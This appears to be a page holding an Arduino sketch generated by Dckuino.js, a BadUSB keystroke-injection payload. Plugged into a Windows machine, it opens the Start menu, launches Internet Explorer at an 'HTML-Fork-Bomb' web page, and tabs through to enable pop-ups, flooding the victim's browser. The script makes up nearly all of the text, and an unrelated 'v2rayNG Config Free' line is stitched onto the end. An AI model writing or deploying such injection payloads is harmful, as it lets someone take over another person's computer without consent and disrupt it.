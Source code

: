 /*
 * Generated with <3 by Dckuino.js, an open source project !
 */

#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Begining the Keyboard stream
  Keyboard.begin();

  // Wait 500ms
  delay(500);

  delay(2000);

  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_ESC);
  Keyboard.releaseAll();

  delay(200);

  Keyboard.print("C:\\Program Files\\Internet Explorer\\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/");

  delay(200);

  typeKey(KEY_RETURN);

  // set a long delay to give time to this disgusting browser
  delay(1000);

  // it's time to enable Pop-Up
  typeKey(KEY_TAB);

  delay(200);

  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}

# v2rayNG
v2rayNG Config Free 
